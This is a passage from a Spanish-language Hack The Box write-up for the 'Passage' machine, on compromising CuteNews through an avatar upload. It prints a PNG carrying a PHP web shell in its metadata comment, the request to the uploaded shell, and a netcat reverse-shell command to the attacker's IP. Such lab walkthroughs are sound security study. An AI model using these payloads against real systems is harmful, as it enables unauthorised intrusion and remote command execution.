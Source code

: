 ```
Content-Type: image/png

PNG

   
IHDR            [GY   gAMA  ±üa    cHRM  z&    ú   è  u0  ê`  :  pºQ<   tRNS  vÍ8   bKGD Ý¤   tIMEå0$m   %tEXtdate:create 2021-03-06T11:28:48+00:00Wôl$   %tEXtdate:modify 2021-03-06T11:28:48+00:00&©Ô   2tEXtComment <?php echo "<pre>"; system($_GET[cmd]); ?>§ññ   IDAT×c`Ü     a%}G    IEND®B`
-----------------------------18797126863564466322517621856
Content-Disposition: form-data; name="more[site]"


-----------------------------18797126863564466322517621856
Content-Disposition: form-data; name="more[about]"


-----------------------------18797126863564466322517621856--
```

Si simplemente crearamos un fichero php con nuestro codigo a cañon, nos dara error, ya que el servidor valida el fichero con la cabecera del mismo, por lo que nos dara error. En este caso, la mejor opción para mí es generar la imagen vacía y meter el codigo php en un comentario.

Una vez ya lo tenemos subido al servidor, en burp nos saldrá una segunda petición con la ruta en la cual se guarda el fichero que acabamos de subir.

```
GET /CuteNews/uploads/avatar_fr3d1s4nm4r_shell.php HTTP/1.1
Host: passage.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://10.10.10.206/CuteNews/index.php
DNT: 1
Sec-GPC: 1
```

Si vamos a esa ruta, ya podremos ejecutar comandos. Para obtener una reverse shell, podemos simplemente ejecutar el siguiente comando a traves del parametro cmd:
* [http://10.10.10.206/CuteNews/uploads/avatar_fr3d1s4nm4r_shell.php?cmd=nc -e /bin/sh 10.10.14.17 1234](http://10.10.10.206/CuteNews/uploads/avatar_fr3d1s4nm4r_shell.php?cmd=nc%20-e%20/bin/sh%2010.10.14.17%201234)


![Passage-revshell-www-data](/assets/imagenes/2021-03-06-Passage-HTB/Passage-revshell-www-data.png)
